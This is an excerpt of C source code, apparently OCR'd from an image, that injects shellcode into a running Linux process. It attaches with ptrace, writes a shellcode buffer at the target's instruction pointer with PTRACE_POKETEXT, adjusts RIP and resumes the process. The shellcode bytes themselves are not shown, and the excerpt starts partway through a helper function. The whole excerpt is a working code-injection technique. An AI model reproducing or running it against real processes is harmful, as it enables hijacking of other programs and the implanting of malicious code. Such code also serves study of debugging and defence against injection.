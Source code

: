```c
{
  int      i;
  uint32_t *s = (uint32_t *) src;
  uint32_t *d = (uint32_t *) dst;

  for (i = 0; i < len; i+=4, s++, d++)
    {
      if ((ptrace (PTRACE_POKETEXT, pid, d, *s)) < 0)
	{
	 perror ("ptrace(POKETEXT):");
	 return -1;
	}
    }
  return 0;
}

int
main (int argc, char *argv[])
{
  pid_t                   target;
  struct user_regs_struct regs;
  int                     syscall;
  long                    dst;

  if (argc != 2)
    {
      fprintf (stderr, "Usage:\n\t%s pid\n", argv[0]);
      exit (1);
    }
  target = atoi (argv[1]);
  printf ("+ Tracing process %d\n", target);

  if ((ptrace (PTRACE_ATTACH, target, NULL, NULL)) < 0)
    {
      perror ("ptrace(ATTACH):");
      exit (1);
    }

  printf ("+ Waiting for process...\n");
  wait (NULL);

  printf ("+ Getting Registers\n");
  if ((ptrace (PTRACE_GETREGS, target, NULL, &regs)) < 0)
    {
      perror ("ptrace(GETREGS):");
      exit (1);
    }
  

  /* Inject code into current RPI position */

  printf ("+ Injecting shell code at %p\n", (void*)regs.rip);
  inject_data (target, shellcode, (void*)regs.rip, SHELLCODE_SIZE);

  regs.rip += 2;
  printf ("+ Setting instruction pointer to %p\n", (void*)regs.rip);

  if ((ptrace (PTRACE_SETREGS, target, NULL, &regs)) < 0)
    {
      perror ("ptrace(GETREGS):");
      exit (1);
    }
  printf ("+ Run it!\n");
```